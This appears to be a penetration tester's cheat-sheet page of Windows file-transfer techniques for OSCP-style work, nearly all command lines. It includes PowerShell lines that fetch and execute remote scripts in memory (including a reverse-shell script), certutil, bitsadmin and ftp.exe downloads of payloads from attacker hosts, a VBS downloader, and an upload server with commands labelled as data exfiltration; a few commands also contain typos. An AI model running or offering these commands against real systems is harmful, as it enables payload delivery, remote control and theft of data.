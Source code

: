 # Windows File Transfers

Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer! Other methods for [[File-Transfers]].

## FTP download
```bash
# copy a binary to /ftphome/; serve the binary on attackbox local ftp server then connect with target
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
sudo systemctl restart pure-ftpd
```

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```
Drop NC one liner webserver
```bash
while(1) { cat index.html | nc -w1 -l -p 8080 }         
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## PowerShell
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe','$bad.exe')"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')

# Download and execute without saving to disk
IEX(New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe')

# -UseBasicParsing is deprecated as of powershell 6.0.0, running with in 6 has no affect 
Invoke-WebRequest http://10.10.10.10/bad.exe -UseBasicParsing
IEX(IWR http://10.10.10.10/Invoke-PowerShellTcp.ps1 -UseBasicParsing)
```
[IWR](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3)

## Non interactive PowerShell
```powershell
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$IP:$PORT/$bad.exe" >> wget.ps1   
echo $file = "$bad.exe" >> wget.ps1   
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
Then
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## SMB with Impacket
[[Impacket-Cheatsheet]]
```bash
impacket-smbserver scriptserver $(pwd) #-smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```
Or - good for XP 
```powershell
net use H: \\$IP\$sharename /persistent:no
# You can add /user:$user password - not figure that out yet 
net use H: /Delete # To delete
```

```powershell
copy \$IP\ROPNOP\exploit.exe
#Or
xcopy \\$ip\scriptserver\$scriptname-here
```

## CertUtil
```powershell
certutil.exe -urlcache -split -f "http://$IP/$FILE"
certutil.exe -urlcache -split -f "http://$IP/$FILE" C:\Windows\Temp\$file
```

**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:
mkdir /tftp
chwon nobody: /tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On Windows:
tftp -i $IP GET $FILE
tftp -i $IP PUT $FILE
```

## VBS script
XP and 2003 lifesaver - BEWARE: "If creating on Linux and then transfer to windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
 - Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

## exe2hex plus Powershell
Have a `.exe` convert into a hex string:
```bash
# Transform binary making it non-interactive 
exe2hex -x nc64.exe -p nc.cmd
```
Good old copy and paste into a shell on Windows machine.

## UPX

Debug `.exe` (32bit machines only) filessize < 64kb!
```powershell
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

## PHP script - Upload HTTP Server for Data Exfiltration

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Exfiltrate your way to a great day!
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```

```powershell
tftp -i $ip put bigExfiltratedDataFile.nowmine
```

## Powercat
Powercat is awesome; see [[Powercat-Cheatsheet]] for more, but to file transfers with powercat:
```powershell
powercat -c 10.10.10.10 -p 54321 -i C:\Users\Administrator\powercat.ps1
```

## BitsAdmin

[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) 
```powershell
bitsadmin /create 1 bitsadmin /addfile 1 http://Attacker_IP/payload.exe c:\Users\Guest\Desktop\payload.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

## FTP.exe

```powershell
cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
```


## References

[hakluke](https://hakluke.medium.com/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97)
[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)
[hackersinterview](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)
[THM Room Living off the Land](https://tryhackme.com/room/livingofftheland)
[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)
[LOLBAS](https://lolbas-project.github.io/#/download)
[IWR Documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3)